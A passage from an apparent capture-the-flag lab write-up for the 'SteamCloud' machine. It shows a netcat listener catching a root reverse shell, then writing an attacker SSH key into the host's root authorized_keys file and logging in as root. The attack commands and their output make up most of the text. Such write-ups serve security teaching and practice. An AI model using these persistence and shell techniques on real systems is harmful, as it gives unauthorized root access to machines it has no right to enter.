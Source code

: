 Immediately there’s a connection:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.133 51442
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@steamcloud:/#

```

With this shell, I’ll create the `.ssh` folder (if it doesn’t exist from earlier), and write my public key:

```

root@steamcloud:/# mkdir -p /mnt/root/.ssh
root@steamcloud:/mnt# cd /mnt/root/.ssh
root@steamcloud:/mnt/root/.ssh# echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > authorized_keys

```

Now I can SSH as root:

```

oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@10.10.11.133
Linux steamcloud 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Jan 10 09:00:00 2022
root@steamcloud:~# 

```